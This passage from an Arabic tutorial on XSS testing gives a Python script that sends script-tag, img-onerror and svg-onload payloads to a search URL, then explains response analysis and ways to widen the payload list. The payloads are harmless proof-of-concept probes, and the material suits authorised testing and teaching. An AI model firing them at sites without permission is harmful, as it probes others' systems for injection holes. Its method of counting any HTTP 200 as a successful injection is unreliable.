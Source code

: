 #### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python):
  ```python
  import requests

  url = "https://example.com/search?query="
  payloads = [
      "<script>alert('XSS')</script>",
      "<script>alert(document.domain)</script>",
      "<img src=x onerror=alert('XSS')>",
      "<svg onload=alert(1)>",
      "<script>console.log('XSS')</script>",
      "<script>document.body.style.background='red'</script>"
  ]

  for payload in payloads:
      response = requests.get(url + payload)
      if "XSS" in response.text or response.status_code == 200:
          print(f"نجاح: {payload}")
      else:
          print(f"فشل: {payload}")
  ```
- **كيف يعمل**:
  - يرسل كل حقنة إلى URL المستهدف.
  - يتحقق من وجود "XSS" في الاستجابة أو رمز حالة 200 لتأكيد النجاح.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار سريع وآلي.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن الاستجابات بناءً على:
    - **رمز الحالة**: 200 (نجاح) مقابل 403/404 (فشل).
    - **طول الصفحة**: صفحة أطول قد تشير إلى نجاح.
    - **نص معين**: مثل "XSS" أو "error" في الاستجابة.
  - مثال: إذا أعادت `<script>alert('XSS')</script>` تنبيهًا أو نص "XSS"، فهي ناجحة.
- **كيف يعمل**:
  - يتم تسجيل الاستجابات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد الحقن الأكثر فعالية بسرعة.

#### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<script>confirm('XSS')</script>` أو `<video poster=x onerror=alert(1)>`).
  - جرب وسوم HTML5 أخرى (مثل `<audio>`, `<details>`).
  - اختبر أحداث إضافية (مثل `onclick`, `onmouseover`).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<script>prompt('أدخل بيانات:','XSS')</script>` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---
